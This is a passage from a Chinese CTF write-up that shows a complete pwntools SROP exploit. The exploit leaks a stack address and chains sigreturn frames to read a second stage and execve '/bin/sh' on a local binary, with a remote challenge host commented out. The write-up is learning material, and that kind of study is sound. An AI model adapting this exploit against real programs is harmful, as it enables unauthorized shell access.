 

第二次输入，这样syscall就到了原本八个a占的位置，而七个b则是为了凑齐十五个字节（如下图）。

```python
payload=p64(syscall_ret_addr)+'bbbbbbb'
```

![image-20220411123128955](/upload/img/image-20220411123128955.png)



按照这两次payload就可以实现sigreturn调用了。

然后就没什么了，最后要注意一下，第二次执行sigreturn的第一个payload顺便把参数给发送过去，然后用我们在系统调用read的那个rsi配合偏移来获取/bin/sh的地址即可。

最后的exp如下

```python
#coding:utf-8
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
#p=remote('node4.buuoj.cn',28000)
p=process('./a')
#gdb.attach(p)
syscall_ret_addr=0x4000BE
start_addr=0x4000B0
payload=p64(start_addr)*3
#第一个start去让第一次正常运行的ret返回到start
#第二个start让\xB3输入进来，此时去改变了栈顶的start，此时它跳过了xor rax,rax，并
#且它的下面还有一个start
#最下面的start是让我们可以再输入frame，一直控制程序执行流
p.send(payload)
p.send('\xB3')
leak_addr=u64(p.recv()[8:16])
target_addr=leak_addr-0x2000#减去0x2000，把payload写到该地址
frame=SigreturnFrame()
frame.rax=0
frame.rdi=0
frame.rsi=target_addr
frame.rdx=0x400
frame.rip=syscall_ret_addr
frame.rsp=target_addr
payload=p64(start_addr)+'aaaaaaaa'+str(frame)
p.send(payload)
payload=p64(syscall_ret_addr)+'bbbbbbb'
p.send(payload)
frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=target_addr+0x110 #此时加上0x110才是/bin/sh的地址
frame.rsi=0
frame.rdx=0
frame.rip=syscall_ret_addr
payload=p64(start_addr)+'aaaaaaaa'+str(frame).ljust(0x100,'\x00')+'/bin/sh'
p.send(payload)
```